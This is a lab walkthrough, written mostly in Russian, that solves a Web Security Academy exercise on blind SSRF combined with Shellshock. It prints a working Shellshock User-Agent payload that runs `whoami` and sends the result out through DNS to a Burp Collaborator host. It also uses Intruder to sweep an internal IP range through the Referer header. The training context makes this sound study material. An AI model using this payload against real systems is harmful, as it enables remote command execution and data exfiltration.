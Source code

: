Lab: Blind SSRF with Shellshock exploitation
EXPERT

This site uses analytics software which fetches the URL specified in the Referer header when a product page is loaded.

To solve the lab, use this functionality to perform a blind SSRF attack against an internal server in the 192.168.0.X range on port 8080. In the blind attack, use a Shellshock payload against the internal server to exfiltrate the name of the OS user.

Note
To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you must use Burp Collaborator's default public server.

## Решение
Установил расширение Collaborator Everywhere из встроеного магазина приложений BAppStore.

Добавил адрес лабы в скоуп, походил по страницам интернет-магазина. На вкладке Target в разделе Issues появилась информация о том, что коллаборатор отловил следующие запросы:
* HTTP (по значению из заголовка Referer)
* HTTP (по значению из заголовка User-Agent)
* DNS (по значению из заголовка Referer)

По-видимому, идея заключается в том, чтобы проэксплуатировать комбинацию из двух уязвимостей. Через SSRF в заголовке Referer отправить запрос к внутреннему серверу по адресу 192.168.0.X:8080, и передать в заголовке User-Agent этого запроса пейлоад для уявзимости Shellshock, выполняющий запрос к серверу Burp Collaborator.

### Shellshock
Скопировал пейлоад из Burp Collaborator и добавил к нему код `() { :; }; nslookup $(whoami).`:

`User-Agent: () { :; }; nslookup $(whoami).ymo54l3k34s5xf2ex6hnr8oqchi868ux.oastify.com`

### SSRF
Перебор диапазона чисел 0..255 для обращения к внутреннему серверу через значение заголовка Referer в Burp Intruder:

`Referer: http://192.168.0.§0§:8080`

После проведения атаки в коллабораторе появляется http-запрос и два dns-запроса. В поле Description dns-запроса можно прочесть:
```
The Collaborator server received a DNS lookup of type A for the domain name peter-W8Rilt.ymo54l3k34s5xf2ex6hnr8oqchi868ux.oastify.com.  The lookup was received from IP address 99.80.88.16:53760 at 2024-Apr-14 09:39:58.347 UTC.
```
Отправляю "peter-W8Rilt" в качестве подтверждения решения. Задание выполнено.
